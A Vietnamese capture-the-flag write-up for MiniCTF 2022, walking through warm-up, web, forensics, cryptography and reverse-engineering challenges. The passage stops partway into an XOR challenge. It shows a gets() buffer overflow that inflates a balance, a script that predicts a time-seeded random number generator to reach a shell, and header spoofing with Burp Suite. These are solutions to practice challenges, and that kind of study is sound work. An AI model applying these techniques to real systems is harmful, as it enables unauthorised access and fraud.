

# MiniCTF 2022 Write-up

## Nội dung:

1. [Warm Up](#1-warm-up)
- [1.1 Basic Forensics](https://github.com/letiendat198/miniCTFWriteUP/blob/master/README.md#11-basic-forensics) 
- [1.2 What is Netcat](https://github.com/letiendat198/miniCTFWriteUP/blob/master/README.md#12-what-is-netcat) 
- [1.3 Abcbof](https://github.com/letiendat198/miniCTFWriteUP/blob/master/README.md#13-abcbof) 
- [1.4 Rock, Paper, Scissors](https://github.com/letiendat198/miniCTFWriteUP#14-rock-paper-scissors)
2. [Web](https://github.com/letiendat198/miniCTFWriteUP#2-web)
- [2.1 PHP Moon Cake](https://github.com/letiendat198/miniCTFWriteUP#21-php-moon-cake)
- [2.2 Get out of here](https://github.com/letiendat198/miniCTFWriteUP#22-get-out-of-here)
- [2.3 Find Flag](https://github.com/letiendat198/miniCTFWriteUP#23-find-flag)
- [2.4 keiichi](https://github.com/letiendat198/miniCTFWriteUP#23-keiichi)
- [2.5 ISP Info]()
3. [Forensics](https://github.com/letiendat198/miniCTFWriteUP#3-forensics)
- [3.1 Correct File?]()
- [3.2 Japanese Food]()
- [3.3 Where is Nemo?]()
- [3.4 Are you Wibu??]()
- [3.5 OnlyFan]()
- [3.6 Love n Light]()
4. [Cryptography]()
- [4.1 Do you know what is basecrack]()
- [4.2 Love Song]()
- [4.3 Ceasar Knight]()
- [4.4 UwU]()
- [4.5 You are noob]()
- [4.6 ROTTOR]()
5. [Reverse Engineering]()
-  [5.1 Baby Kinzx]()
-  [5.2 EZ RE]()
-  [5.3 Loop Key]()
-  [5.4 XOR]()
-  [5.5 Lost Obfuscation]()
6. [Misc]()
-  [6.1 Best Avatar]()
-  [6.2 Base64]()
-  [6.3 New Misc]()
   
## 1. Warm Up
### 1.1 Basic Forensics

Đề bài cho chúng ta một file .svg. Đầu tiên hãy mở nó lên đã


Không có gì quá đặc biệt. Thử Inspect xem sao


Ở trong block `\<text\>` ta có thể thấy được flag: `ISPCTF{7hAt_warm_up_gnys}`
	
### 1.2 What is Netcat

Netcat là một phần mềm có thể đọc và viết dữ liệu thông qua giao thức TCP hoặc UDP chủ yếu được điều khiển bởi các phần mềm và scripts khác (Để biết thêm, tham khảo `man nc`)
	
Đề bài cho chúng ta một câu lệnh của netcat. Hãy thử nhập vào terminal xem sao

```

$ nc 174.138.21.217 3136
	
                              NETCAT      
                            /\_____/\    
                           /  o   o  \   
                          ( ==  ^  == )   
                          ))         (    
                          (           )   
                         ( (  )   (  ) )  
                        (__(__)___(__)__) 
	

Here your flag: ISPCTF{Th1s_1s_n3t_c4t}

```

### 1.3 Abcbof
	
Vẫn là một câu lệnh netcat, nhập vào terminal thôi 

```
$ nc 174.138.21.217 3137
	
Hãy nhập tên người chơi: writeup
==========================Game Bài Đoán Số Uy Tín Đổi Thưởng==========================
| 1. Chơi Game   |  2. Hướng Dẫn   |   3. Đổi Flag   |  4. Tài Khoản | 5. Thoát Game |
======================================================================================

Hello writeup, chào mừng bạn đến với Game Bài Uy Tín Top 1 Việt Nam !!!
Nhập lựa chọn của bạn: 
2
==============Hướng Dẫn==============
  Chiến thắng để dành giải thưởng   
      1 triệu $ từ Halston <3       
                                    
 Mỗi lần nhập hãy nhập vào một lá   
  mà giống với lá bài của nhà cái   
  Bộ bài chỉ gồm 9 lá từ 2 đến 10    
 Do lợi nhuận cao nên mọi người đến 
 chơi bài rất nhiều dẫn đến khi đi  
 về họ cầm theo cả Át, J, Q, K để   
 đi về. Mỗi lần đoán đúng sẽ được   
             50 000$                
                                    
               Hint                 
  Hãy cố gắng nhập THẬT NHIỀU để    
      có thể chiến thắng nhé.       
                     Kevin Halston  
=====================================


```

Có vẻ như đây là một trò chơi, flag có trị giá 1 000 000 000$ mà mỗi lần thắng chỉ được có 50 000$. Nếu lần nào cũng thắng thì phải thắng 20000 lần. Oải ha. Thế chắc không chơi đúng luật được rồi. Đề bài còn cho kèm theo source code nữa kìa. Để xem có gì thú vị không.

Source rất dài nhưng chúng ta chỉ cần quan tâm phần đầu thôi. Cụ thể là đoạn này
```
long long money = 0;
puts("==========================Game Bai Doan So Uy Tin Doi Thuong ==========================");
puts("| 1. Choi Game   |  2. Huong Dan   |   3. Doi Flag   |  4. Thoat Game |  5. Tai Khoan |");
puts("======================================================================================");
puts("Hay nhap ten nguoi choi:");
char name[30];
gets(name);
system("clear");
```
Ta có thể thấy biến `name` là một char array có 30 phần tử. Vậy điều gì sẽ xảy ra nếu chúng ta nhập một chuỗi dài hơn 30 ký tự? Nó sẽ bị tràn, và tràn ra biến trước đó, là `long long money = 0`. Bằng cách này ta có thể hack tiền. Thử ha
				
```
Hãy nhập tên người chơi: 1111111111111111111111111111111111111111111111111111111111111
==========================Game Bài Đoán Số Uy Tín Đổi Thưởng==========================
| 1. Chơi Game   |  2. Hướng Dẫn   |   3. Đổi Flag   |  4. Tài Khoản | 5. Thoát Game |
======================================================================================

Hello 1111111111111111111111111111111111111111111111111111111111111, chào mừng bạn đến với Game Bài Uy Tín Top 1 Việt Nam !!!
Nhập lựa chọn của bạn:
3

Tài khoản của bạn có 3544668469065756977 $ 
=====================FLAG=======================
|Bạn có muốn mua FLAG với giá 1 000 000 000 $  |
|----------------------------------------------|
|         1. YES      |         2. NO          |
================================================
Lựa chọn của bạn : 
1


Chúc mừng bạn đã chiến thắng
Đây là Flag của bạn:
ISPCTF{B4s1c_Buff3r_0v3rFl0w}

```

### 1.4 Rock, Paper, Scissors
Lại là netcat. Nhập vào terminal nào

```
$ nc 174.138.21.217 3138
Welcome challenger to the game of Rock, Paper, Scissors
For anyone that beats me 5 times in a row, I will offer up a flag I found
Are you ready?
Type '1' to play a game
Type '2' to exit the program
```

Có vẻ ta phải thắng 5 lần thì mới lấy được flag. Khá khó ha. Nhưng không khó nữa nếu ta đoán được xem server sẽ ra gì. Xem source code nào

```
bool play () {
  char player_turn[100];
  srand(time(0));
  int r;

  printf("Please make your selection (rock/paper/scissors):\n");
  r = tgetinput(player_turn, 100);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }

  int computer_turn = rand() % 3;
  printf("You played: %s\n", player_turn);
  printf("The computer played: %s\n", hands[computer_turn]);

  if (strstr(player_turn, loses[computer_turn])) {
    puts("You win! Play again?");
    return true;
  } else {
    puts("Seems like you didn't win this time. Play again?");
    return false;
  }
}
```

Hàm `play()` ở trên được gọi ngay sau khi người chơi bấm 1. Nếu nhìn kỹ ta sẽ thấy hàm `srand()` được gọi trước lúc ta phải đưa ra lựa chọn

```
srand(time(0));
int r;

printf("Please make your selection (rock/paper/scissors):\n");
r = tgetinput(player_turn, 100);
```

Hàm `srand()` là hàm seed cho hàm `rand()`. Do đó nếu chúng ta biết được seed chúng ra sẽ biết được kết qua của hàm `rand()`. Và ở đây hàm `srand()` này được seed bằng hàm `time(0)` (Tức là số giây kể từ ngày 1/1/1970 cho tới nay) nói chung chỉ cần hiểu nó ám chỉ tới thời điểm hiện tại. Và may thay ta nằm cùng chỗ với server nên thời gian là như nhau. Tức là ta có thể tạo ra cùng một seed với server và đoán được server sẽ ra gì.
Vậy nên mình viết ra script sau

```
#include <stdio.h>
#include <math.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

int main() {
    char* hands[3] = {"rock", "paper", "scissors"};
    for(;;) {
        srand(time(0));
        int ran = rand() % 3;
        printf("Server will return: %s \n", hands[ran]);
        sleep(1);
    }
    return(0);
}
```

Script trên có tác dụng mỗi giây seed một lần và có thể đoán xem được trong giây này server sẽ ra gì. Ta chỉ cần chạy sccript này song song với netcat là có thể biết trước server sẽ ra gì và chúng ta có thể chiến thắng. 
(Lưu ý: Do timing mà script và server có thể lệch nhau từ 0-1s. Do đó cái mà server ra có thể là cái ở giây hiện tại cũng có thể là ở giây phía trước. Cần phải thử để biết được)


Bây giờ chúng ta đã thắng được 5 lần rồi. Nhưng tại sao không thấy flag đâu nhỉ. Xem lại source code ha

```
if (wins >= 5) {
   puts("Congrats!!!");
   system("/bin/sh");
}
```

Sau khi thắng 5 lần thì server sẽ chạy command `/bin/sh` cho chúng ta access tới terminal chứ không đưa luôn flag cho chúng ta. Đầu tiên phải xem xung quanh có gì đã

```
ls
bin
chall
dev
flag.txt
ld.so
lib
lib32
lib64
libc.so.6
```

Chúng ta có thể thấy luôn có một file tên là `flag.txt`. Chắc đây là flag rồi.

```
cat flag.txt
ISPCTF{d0nt_m4k3_7h3_l091c4l_m1s74k3}
```

<!-- (Đáng nhẽ em được first solve bài này nha nhưng mà lại bị báo sai. Đến tối thì lại được mà lúc đấy mất first solve rồi -.-) -->

## 2. Web
### 2.1 PHP Moon Cake


Trang web này trông không có gì bất thường lắm nhỉ. Việc đầu tiên vẫn là Inspect thử xem sao nào


Có thể thấy ở `<head>` có link tới một file css tên `/style_in.css`. Mở ra xem có manh mối gì không 


Ở phần cuối có luôn flag kìa `ISPCTF{m00n_c4k3_15_t00_sw33t}`

### 2.2 Get out of here


Có vẻ như không có gì cả (Pun intended). Nhưng vẫn phải Inspect xem sao


Ồ flag ở kia luôn rồi: ` ISPCTF{jU5t_lnsp3ct_01012021dad}`

### 2.3 Find Flag


Một trong web không có gì bất thường và Inspect cũng không có manh mối gì cả. Sau khi mua hint thì ta biết được rằng flag được giấu ở `/flag.txt` 


Flag: `ISPCTF{HAv3_Fnu_Vvlt5_W3b}`

### 2.4 Keiichi

Trang web này Inspect giống như một mê cung vậy.


Vậy nên chúng ta hãy dùng search


Tìm thấy phần đầu của flag rồi. Sau khi nghịch bài Sqli blind thì mình mới để ý tới `robots.txt`. Thế nên quay lại thử xem sao


Và kia là phần 2 của flag. Sau một hồi ngắm nó thì có vẻ phần 2 của flag là một dạng url. Thử cho lên thanh url xem sao. 


Ồ có kết quả này. Nhìn dãy kia giống base64 ha. Sau khi giải ra sẽ được phần cuối của flag 

 
 
 Vậy cuối cùng flag là: `ISPCTF{H3_1S_C0m3B4ck_Y0u_Can_find_him}`
 
 ### 2.5 ISP Info
 
 Đề bài cho chúng ta một trang web mà chỉ ISPER mới có thể truy cập
 
 
 
 Hmmm, muốn giả làm ISPER thì chắc phải thay đổi Request đến server thôi. Cụ thể là Header `User-Agent`. Dùng Burp Suite để làm việc này he.
 
  
 
 Có thể thấy dòng `User-Agent` đang là Mozilla Firefox. Phải sửa lại thôi
 
  
  Như này chắc là được rồi nhỉ. Forward tới Server xem phản ứng như thế nào thôi.
  
   
   
   Có thay đổi rồi kìa. Lần này trang web lại hỏi chúng ta xem có biết Facebook của CLB ISP không kìa. Để thể hiện là mình biết thì chắc chắn là phải được đích thân trang Facebook của ISP giới thiệu rồi. Cái này cũng fake được nữa nè. Dùng Header `Referer`. Quay trở lại với Burp Suite nào
   
   
   Như vậy là được rồi. Chắc không bị lộ đâu. Để xem Server thấy sao nhỉ.
   
   
   
   Hmmm, địa chỉ localhost của mình à. Chắc hẳn là `127.0.0.1` rồi. Vậy làm sao để trả lời Server bây giờ? Dùng Header `X-Forwarded-For` chứ còn gì nữa.
   
   
   Được rồi để xem có flag chưa.
   
   
   
   Lại là câu hỏi nữa. Để xem nào, Khoa ATTT PTIT thành lập vào Thứ 3, 05/04/2022 (Dạ làm riết cái bài này rồi em thuộc luôn đó). Để trả lời thì dùng Header `Date` là được rồi.
   
   
   Để xem câu đố tiếp theo là gì nào. 
   
   
   Để thể hiện trình độ Tiếng Việt của bản thân thì phải dùng header `Accept-Language` rồi. Nhưng mà không phải `vi-VN,vi` mà là `vi-vi,vi`
   
   
   Cuối cùng thì cũng xong rồi
   
   
   Flag: `ISPCTF{N0w_Y0u_Kn3w_4b0ut_ISP_Y0ur_W3lC0m3}`
  
 
## 3. Forensics

### 3.1 Correct File?

Đề bài cho chúng ta một file có tên `file.zip`. Hãy thử giải nén nó ra đã. 
Chúng ta sẽ có một file `file.mp3`. Nếu Media Player của bạn thông minh (Như VLC và vài cái nữa chẳng hạn) thì có lẽ đã thấy video chứa flag rồi. Nhưng nếu không thì hãy thử check xem file này có đúng là file `mp3` không nhé. Trong đa số các trường hợp thì dùng câu lệnh `file` là đủ rồi.

```
$ file file.mp3                                       
file.mp3: ISO Media, MP4 v2 [ISO 14496-14]
```

Vậy là lộ rồi. Đây rõ ràng là một file `mp4`. Đổi lại đuôi file thành `.mp4` để thấy flag thôi.

Flag: `ISPCTF{i_am_following_you}`

### 3.2 Japanese Food

Đề bài đưa ta đến một MV của Chipu. Và đừng như mình `xem đi xem lại 5-6 lần` để ghép flag mà hãy xem đến cuối video, nơi mà một mã QR chứa flag đang đợi bạn. Bài học rút ra là hãy luôn xem đến hết video.


Flag: `ISPCTF{Pe0ple_mAke_1t_complicat3d}`

### 3.3 Where is Nemo

Đề bài cho chúng ta một file `jpg` (Ủa mình nhớ lúc mình làm là file `webp` mà nhỉ). Nhưng mà thôi không sao, cái mấu chốt là file `jpg` này mở không được (Hoặc ít nhất là phần mềm xem ảnh của mình không mở được). Khả nghi nhỉ. Hãy dùng `file` thử xem 
```
$ file Where_is_Nemo.jpg
Where_is_Nemo.jpg: RIFF (little-endian) data, Web/P image, VP8 encoding, 1600x1200, Scaling: [none]x[none], YUV color, decoders should clamp
```

Thì ra đây là file `webp` thảo nào không mở được nhỉ. Nhưng vẫn thấy khả nghi, thôi dùng `binwalk` cho chắc

```
$ binwalk Where_is_Nemo.jpg                               

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
140384        0x22460         RAR archive data, version 5.x
274255        0x42F4F         TIFF image data, big-endian, offset of first image directory: 8
274281        0x42F69         RAR archive data, version 5.x
363715        0x58CC3         RAR archive data, version 5.x
400673        0x61D21         RAR archive data, version 5.x
```

Vậy là lộ hết luôn rồi. Hóa ra đây thực chất là file `rar`, bên trong chưa 3 file `rar` nữa. Giải nén thôi

```
$ unrar x Where_is_Nemo.jpg

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from Where_is_Nemo.jpg

Extracting  crush.jpg                                                 OK 
All OK
```

Giải nén xong lại có một file `crush.jpg` kìa. Theo như `binwalk` thì đây thực chất vẫn là file `rar` thôi. Lại giải nén tiếp

```
$ unrar x crush.jpg        

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from crush.jpg

Extracting  marlin.jpg                                                OK 
All OK
```

Lại ra một file nữa tên `marlin.jpg`. Nhưng mà vẫn vậy, giải nén tiếp

```
$ unrar x marlin.jpg     

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from marlin.jpg

Extracting  dory.jpg                                                  OK 
All OK
```

Ra một file tên `dory.jpg`. File này có lẽ là file `rar` giả mạo thứ 3 mà `binwalk` nhắc đến rồi. Giải nén nốt thôi

```
$ unrar x dory.jpg  

UNRAR 6.12 freeware      Copyright (c) 1993-2022 Alexander Roshal


Extracting from dory.jpg

Extracting  nemo.txt                                                  OK 
All OK
```

File `txt` gì mà mở lên lại toàn kí tự lạ không đọc được. Chắc lại là hàng fake rồi. Thử dùng `file` xem. 

```
$ file nemo.txt             
nemo.txt: JPEG image data, JFIF standard 1.01, resolution (DPI), density 120x120, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=1, orientation=upper-left], baseline, precision 8, 2000x3000, components 3
```

Thì ra đây là một file `.jpeg`. Đổi lại đuôi file và mở lên thôi


Flag: `ISPCTF{y0u_5ave_Nem0_f15h}`

### 3.4 Are you Wibu

Đề bài cho chúng ta một file ảnh `Are_u_wibu.jpeg`. Mở lên bình thường, `file` và `binwalk` cũng thấy không có gì bất thường. Vậy nhìn nội dung đã


Có chữ gì đó nhưng bị xáo trộn lên hết rồi. Nếu để ý kỹ ta có thể thấy được sự liên quan giữa các dòng


Cứ cách 2 dòng lại có một dòng liên quan đến nhau (Phần màu đỏ). Thử ghép chúng lại với nhau xem có đọc được chữ không nhé


Có chữ đọc được rồi này `ISPCTF{w1bu_n3`. Có vẻ mới chỉ có phần đầu của flag thôi. Phần sau chắc chắn vẫn còn ở trong bức ảnh này. Vẫn còn các dòng mà mình chưa dùng mà. Vẫn vậy, cứ cách 2  dòng lại có một dòng liên quan đến nhau, lần này là các dòng ở phía trên các dòng trước (Phần màu xanh)



Hãy thử ghép chúng lại với nhau xem 


Ra vế sau của flag rồi `v3r_d13_1337}`. Vậy cuối cùng flag là `ISPCTF{w1bu_n3v3r_d13_1337}`

### 3.5 OnlyFan

Đề bài cho chúng ta một dòng chữ bị swirl khá là nặng


Nhưng rất may là swirl có thể đảo ngược được. Trong lúc tìm cách thì mình thấy có cái tool online này làm rất tốt luôn này `https://www.photo-kako.com/en/swirl/`


Muốn unswirl thì phải chỉnh `Angle` về giá trị âm chứ nhỉ 


Bắt đầu đọc được chữ rồi. Lưu về máy và làm lại thêm một lần nữa là ra kết quả rồi.


Flag: `ISPCTF{r0und_n_r0und_1908absc}`

### 3.6 Love n Light

Đề bài cho chúng ta một file ảnh nhìn khá bình thường cũng không có manh mối gì cả, `file` và `binwalk` kể cả `xxd` (hex dump) cũng không có gì bất thường. Vậy chắc vấn đề phải ở trong chính bức ảnh rồi. Mình tìm thấy một tool Forensics online khá hay ho `https://29a.ch/photo-forensics/`


Mở vào phần Error Level Detection (Theo như khả năng đọc hiểu của mình thì là để xem xem ảnh có bị chỉnh sửa chỗ nào không vì nếu bị chỉnh sửa thì Error Level sẽ khác các phần còn lại của ảnh)


Flag kia rồi: `ISPCTF{Fr0m_kA1z_w1tH_L0v3}`


## 4 Cryptography

### 4.1 Do you know what is basecrack

Đề bài cho chúng ta một file với nội dung

```
M0hXSWM5RWJTcFZQS0xHZTI0ZnliTXpNU09RcUlHSHJkNVVGbW9zU0EzNnJBTGpkWWlJUE0xVzFJbXNOdUtxT0ZCMUpMWkJGQzF5aWN6Y2UxZXY2NmJXNFE=
```

Tiêu đề có vẻ gợi ý về công cụ [này](https://basecrack.herokuapp.com/) có thể giải được các loại base encode

Nhập dãy ký tự kia vào trang này để giải mã. Lần đâu ra được dòng chữ này 
```
3HWIc9EbSpVPKLGe24fybMzMSOQqIGHrd5UFmosSA36rALjdYiIPM1W1ImsNuKqOFB1JLZBFC1yiczce1ev66bW4Q [Base64]
```
Lại copy dãy ký tự kia vào ô decode để giải ra tiếp. Cứ lặp lại như vậy cho đến khi thấy flag: `ISPCTF{1_you_kn0w_Base_Crack}`

### 4.2 Love Song

Một file âm thanh kêu bíp bíp. Nghe phát là nhớ ngay ra mã Morse rồi nhỉ. Nếu như mình, không nghe được mã Morse thì có thể lên mấy trang web dịch mã Morse như [này](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)


Vì một lý do nào đấy mà lần nghe đầu bị lỗi (Mấy lần mình thử đều vậy). Bấm nghe lại thêm lần nữa thì mới chuẩn
Flag: `ISPCTF{how_can_you_fix_it_?}` (Chắc vậy mình không nhớ lắm. không biết có viết hoa ko)

### 4.3 Ceasar Knight

Một file `txt` có nội dung 
```
DNKXOA{c3gg0_DNK_1337}
```

Số lượng các ký tự và 2 dấu {} đã đúng rồi. Chỉ có các ký tự nhìn hơi kỳ quặc thôi. Và thường thì đảo chữ này sang chữ khác thì mình hay nghĩ đến `ROT` (Rotate). Lên [dcode.fr](https://www.dcode.fr/rot-cipher) đi họ có tool brute force tất cả các loại ROT khá là tiện

Flag ở ngay đầu luôn kìa: `ISPCTF{h3ll0_ISP_1337}`

### 4.4 UwU

Nói thật là nhìn vô cái đề bài mình cũng chả biết là cái gì luôn á. 
```
925-00U1&>U557S-N8V]D95]N;W1?57=5?0``
`
```
Nhưng mà tiện thay là [dcode.fr](https://www.dcode.fr/cipher-identifier) cũng có tool để tự phát hiện cipher. Và bùm `dcode.fr` đề xuất ra UUencode. Đề bài tên là UwU. Có vẻ liên quan rồi đây. Nhập vào để giải UUencode là ra flag rồi.

Flag: `ISPCTF{UU_3ncode_not_UwU}`

### 4.5 You are noob
<!-- Huhu dài quá cứu bé -->
Một file `txt` với nội dung
```
aHR0cHM6Ly93d3cuaW5zdGFncmFtLmNvbS80Y2MzZXNzX20zLw==
```
Dấu bằng ở cuối là hint cho `base64` rồi. Decode ra xem nào.


Link Instagram kia dẫn tới một cái bio thú vị


Dòng thứ 3 trong bio là một dãy số. Thử đổi nó sang chữ bằng cách dùng [Decimal to Text](https://cryptii.com/pipes/decimal-text)


Kia là phần đâu của flag rồi: `ISPCTF{c4T_M3`. Phần còn lại chắc chắn là ở dòng cuói trên cái bio Instagram kia.
```
HR0cHM6Ly9pZGVvbmUuY29tL0Z4Q0xQOQ==
```
Lại là dấu "=" hint về base64. Decode xem ra cái gì nào.
 
 
 Link kia dẫn tới trang Web này 


Dòng thứ 2 có vẻ là thứ gì đó được mã hóa. Còn dòng thứ 3 có vẻ lại là mã hóa base64. Lại giải ra thôi


Mở link google docs kia ra cho ta một bức ảnh này.


Có vẻ là hint. Dec có lẽ nói Decimal và vừa này mình dùng dữ kiện này rồi. Cái còn lại là rail, có lẽ nhắc đến cipher [Rail fence](https://cryptii.com/pipes/rail-fence-cipher). Vậy decode nốt cái dòng mà mình chưa dùng thôi


Phần cuối cùng của flag kia rồi. Ghép lại chúng ta có flag: `ISPCTF{c4T_M3_1f_u_C4n?}`

### 4.6 ROTTOR
Đề bài cho chúng ta một bức ảnh nhìn có vẻ giống QR Code nhưng mà thiếu mất vài phần


Nghiên cứu một chút về cấu trúc của một QR Code thì mình tìm thấy cái ảnh này khá hữu ích


Theo như ảnh trên thì có vẻ như QR Code mà đề bài cho bị thiếu mất 3 góc. Chỉ cần ghép vào là scan được rồi (Hoặc nếu bạn không biết ghép thì có thể ngồi vẽ lại từng block một như mình)


Scan mã QR này đưa ta tới một trang [web](https://cdn.me-qr.com/png/8349524.png)


Cái kia nhìn giống cái form flag rồi đó. Nhưng mà các chữ cái nhìn có vẻ sai sai. Tên đề bài là ROTTOR mà từ nãy đến giờ cũng chưa rotate cái gì cả. Vậy chắc đây là `ROT` cipher rồi.


Kia rồi. Flag: `ISPCTF{0h_mY_90D_y0u_931_i1}`

## Reverse Engineering

### 5.1 Baby Kinzx
Đề bài cho chúng ta một đoạn code C++ với thuật toán để giải từ `char license[]` sang flag
```
#include<stdio.h>
#include<string.h>
#include<Windows.h>
int main(){
	
	puts("Pls, Enter your License : ");
	char license[]="010010010101001101010000010000110101010001000110011110110101111101100010011010010111010001011111011000100110100101110100011000110110100001011111011000100110010101100001011000110110100001111101";
	char my_license[100];
	fgets(my_license,100,stdin);
	if(strlen(my_license)==25){
		puts("[+] Checking....");
		Sleep(3000);
		int l = (int)strlen(license);
		unsigned char flag[24] = {};
		
		for(int i=0;i<l;i+=8){
			for(int j=i;j<(i+8);j++){
				int pos = (int)(i/8);
				flag[pos] <<= 1;
				flag[pos] += license[j] - 0x30;
			}
		}
		flag[24]=0;
		if(memcmp(flag,my_license,24)==0){
			puts("Cracked!");
		}else{
			puts("Are you hacker ?");
		}
	}else{
		puts("Invalid License!");
	}
}
```

Vì `license` được dịch từ một đống 0 và 1 sang chữ để xuất ra ngoài. Nên chúng ta chỉ cần lấy `license[]` và thuật toán giải rồi đưa màn hình kết quả là được rồi
```
#include<stdio.h>
#include<string.h>

int main()
{
    char license[]="010010010101001101010000010000110101010001000110011110110101111101100010011010010111010001011111011000100110100101110100011000110110100001011111011000100110010101100001011000110110100001111101";
    int l = (int)strlen(license);
		unsigned char flag[24] = {};
		
		for(int i=0;i<l;i+=8){
			for(int j=i;j<(i+8);j++){
				int pos = (int)(i/8);
				flag[pos] <<= 1;
				flag[pos] += license[j] - 0x30;
			}
		}
		flag[24]=0;
	printf("%s",flag);
}
```

Compile rồi chạy thôi
```
$ ./a.out   
ISPCTF{_bit_bitch_beach}
```

### 5.2 EZ RE
Mở file code lên là flag là lộ ngay rồi.
```
#include <stdio.h>
#include <string.h>
int main()
{
    printf("-------------------CUOC_BAT_BAT_DAU-----------------------------\n");
    printf("Input Flags: ");
    char flag[33] = {};
    puts(flag);
    fgets(flag, sizeof(flag), stdin);
    if (strlen(flag) == 32 &&
        flag[0] == 'd' &&
        flag[29] == '3' &&
        flag[4] == 'r' &&
        flag[2] == '5' &&
        flag[23] == 'r' &&
        flag[3] == 'c' &&
        flag[17] == '4' &&
        flag[1] == '3' &&
        flag[7] == 'b' &&
        flag[10] == '_' &&
        flag[5] == '4' &&
        flag[9] == '3' &&
        flag[11] == 't' &&
        flag[15] == 'c' &&
        flag[8] == 'l' &&
        flag[12] == 'H' &&
        flag[20] == 'c' &&
        flag[14] == '_' &&
        flag[6] == 'm' &&
        flag[24] == '5' &&
        flag[18] == 'r' &&
        flag[13] == '3' &&
        flag[19] == '4' &&
        flag[21] == 'T' &&
        flag[16] == 'H' &&
        flag[27] == 'f' &&
        flag[30] == 'b' &&
        flag[25] == '_' &&
        flag[22] == '3' &&
        flag[28] == '6' &&
        flag[26] == 'f' && 
        flag[31] == '0')
    {
        printf("ISPCTF{");
        printf("%s", flag);
        printf("}");
```
Nhiệm vụ còn lại là sắp xếp cho đúng thứ tự thôi. Cứ dựa vào index từ 0-31 mà sắp xếp là ra flag rồi (Xin lỗi mình lười mọi người tự sắp xếp nha)

### 5.3 Loop Key

Một file code C++

```
#include <iostream>
using namespace std;
int check_flag(int data[])
{
    int a[] = {73,167,324,545,1360,2265,7908,133,160,277,860,1705,3696,6249,303,433,452,
    1097,2084,3401,6672,538,704,909,1520,2497,2244,6809,833,941,1096,1353,1824,2625,4228,1276,1546};
    for (int i = 0; i < 37; i++)
    {
        if (data[i] != a[i])
            return 0;
    }
    return 1;
}
int s_203_key(string data)
{
    int src[100];
    for (int i = 0; i < data.length(); i++)
    {
        src[i] = (((int)data[i] << ((char)i % 7)) + i * i);
    }
    check_flag(src);
}
int main()
{
    string flag;
    cout << "_______________BAT_DAU_______________" << endl;
    cout << "Inputflag : ";
    cin >> flag;
    if (s_203_key(flag) == 1)
        cout << "correct!!!";
    else
        cout << "incorrect!!!";
}
```
Có thể thấy được là input từ user sẽ được chuyển về số giống với format của flag sau đó được đem đi so sánh. Vậy thì không làm giống bài Baby Kinzx được rồi. Chúng ta phải giải từ `array a[]` kia giải về lại input chữ

Đầu tiên là trừ đi cái đoạn (i*/i) đã/ vì cái này scale theo index nên sẽ khiến cho các số của phần bị mã hóa kia (`a[]`) không đồng nhất
```
nt a[] = {73,167,324,545,1360,2265,7908,133,160,277,860,1705,3696,6249,303,433,452,
    1097,2084,3401,6672,538,704,909,1520,2497,2244,6809,833,941,1096,1353,1824,2625,4228,1276,1546};
    int processed[36];
    int result[36];
    for (int i = 0; i< 37; i++){
       processed[i] = a[i] - i*i;
       printf("processed: %i \n", processed[i]);
    }
```

Bây giờ thì nghịch đảo lại cái bit shift `(int)data[i] << ((char)i % 7)` thành `result[i] =  processed[i] >> ((char)i %7);` là ra kết quả rồi

Đây là script đầy đủ
```
#include <iostream>
using namespace std;

int main(){
   int a[] = {73,167,324,545,1360,2265,7908,133,160,277,860,1705,3696,6249,303,433,452,
    1097,2084,3401,6672,538,704,909,1520,2497,2244,6809,833,941,1096,1353,1824,2625,4228,1276,1546};
    int processed[36];
    int result[36];
    for (int i = 0; i< 37; i++){
       processed[i] = a[i] - i*i;
       printf("processed: %i \n", processed[i]);
    }
    for (int i =0; i < 37; i++){
        result[i] =  processed[i] >>  ((char)i %7);
        printf("%c", result[i]);
    }
}
```
Giờ chỉ phải chạy thôi. Flag: `ISPCTF{T01_co_kh1en_ban_vu1_12112003}`

### 5.4 XOR
<!-- Mãi chua-->
Lại là C++
```
#include <stdio.h>
#include <string.h>

char LAW(char a, char b) {
    return !(a | b);
}
char LOST(char a) {
    return LAW(a, a);
}
char END(char a, char b) {
    return LOST(LAW(a, b));
}
char OO(char a, char b) {
    return LOST(END(LOST(a), LOST(b)));
}
char ISPCLUB(char a, char b) {
    return END(OO(a, LOST(b)), OO(LOST(a), b));
}
int main() {
    unsigned char input[15];
    unsigned char cipher[15] = { 0xe7,0x99,0xdb,0xf6,0x98,0xda,0xf6,0xda,0x99,0xf6,0xe4,0x9d,0xce,0x98,0xca };
    unsigned char your_cipher[15];
    char key[] = { 1,0,0,1,0,1,0,1 };
    printf("Enter Flag : ");
